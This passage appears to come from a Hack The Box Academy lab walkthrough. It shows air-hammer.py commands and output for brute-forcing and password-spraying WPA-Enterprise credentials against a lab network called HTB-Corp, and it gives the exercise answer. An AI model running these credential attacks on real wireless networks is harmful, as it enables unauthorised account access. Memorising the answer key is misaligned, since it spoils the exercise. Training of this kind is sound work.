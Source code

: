 ```
root@HTB-Corp:/home/wifi# cd /opt/air-hammer
root@HTB-Corp:/opt/air-hammer# echo "HTB\Sentinal" > user.txt
root@HTB-Corp:/opt/air-hammer# python2 air-hammer.py -i wlan0 -e HTB-Corp -p /opt/rockyou.txt -u user.txt

[0]  Trying HTB\Sentinal:123456...
[0]  Trying HTB\Sentinal:12345...

<SNIP>

[0]  Trying HTB\Sentinal:sunshine...
[!] VALID CREDENTIALS: HTB\Sentinal:{hidden}

<SNIP>
```

Answer: `sunshine`

# Performing Bruteforce Attacks

## Question 2

### "Perform the password spray attack as demonstrated in this section. What is the name of another user with the same password as HTB\\Sentinal? (Format: Domain\\Username)"

Students will reuse the previously established RDP session and terminate the `air-hammer.py` process. Subsequently, they will create a user list using the `john.txt` list located in the `/opt/statistically-likely-usernames` directory and will append the `HTB\` domain prefix:

Code: shell

```shell
cat /opt/statistically-likely-usernames/john.txt | awk '{print "HTB\\" $1}' > users.txt
```

```
root@HTB-Corp:/opt/air-hammer# cat /opt/statistically-likely-usernames/john.txt | awk '{print "HTB\\" $1}' > users.txt
```

Next, students will use `air-hammer.py` to perform a reverse brute force using the previously found password of the user `HTB\Sentinal` to uncover a user using the same password:

Code: shell

```shell
python2 air-hammer.py -i wlan0 -e HTB-Corp -P {hidden} -u users.txt
```

```
root@HTB-Corp:/opt/air-hammer# python2 air-hammer.py -i wlan0 -e HTB-Corp -P {hidden} -u users.txt

<SNIP>

[7]  Trying HTB\{hidden}:{hidden}...
[!] VALID CREDENTIALS: HTB\{hidden}:{hidden}

<SNIP>
```
